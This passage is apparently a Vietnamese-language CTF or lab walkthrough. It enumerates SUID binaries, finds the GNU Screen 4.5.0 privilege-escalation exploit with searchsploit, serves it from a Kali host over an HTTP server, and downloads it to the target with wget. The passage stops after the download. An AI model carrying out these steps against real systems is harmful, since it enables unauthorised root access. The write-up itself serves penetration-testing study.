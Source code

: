 ```python
/usr/bin/newgrp                                                                                                                                                                              
/usr/bin/chsh                                                                                                                                                                                
/usr/bin/chfn                                                                                                                                                                                
/usr/bin/sudo                                                                                                                                                                                
/bin/fusermount                                                                                                                                                                              
/bin/su                                                                                                                                                                                      
/bin/ping6                                                                                                                                                                                   
/bin/screen-4.5.0                                                                                                                                                                            
/bin/screen-4.5.0.old                                                                                                                                                                        
/bin/mount
/bin/ping
/bin/umount
```

Tìm exploit về screen-4.5.0 và tôi tìm được trên [exploit-db.com](https://www.exploit-db.com/exploits/41154) 

Xác định vị trí của exploit và tạo local http server tại đó 

```python
┌──(neo㉿kali)-[~]
└─$ searchsploit -p 41154    
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable
                                        
┌──(neo㉿kali)-[~]
└─$ cd /usr/share/exploitdb/exploits/linux/local/
                                           
┌──(neo㉿kali)-[/usr/…/exploitdb/exploits/linux/local]
└─$ python -m http.server 8000

```

Sau đó tải exploit lên machine

```python
joker@ubuntu:~$ wget http://10.6.0.191:8000/41154.sh
--2022-11-07 00:28:17--  http://10.6.0.191:8000/41154.sh
Connecting to 10.6.0.191:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1149 (1.1K) [text/x-sh]
Saving to: ‘41154.sh’

41154.sh                                        100%[====================================================================================================>]   1.12K  --.-KB/s    in 0.01s   

2022-11-07 00:28:18 (78.1 KB/s) - ‘41154.sh’ saved [1149/1149]

joker@ubuntu:~$ 
```
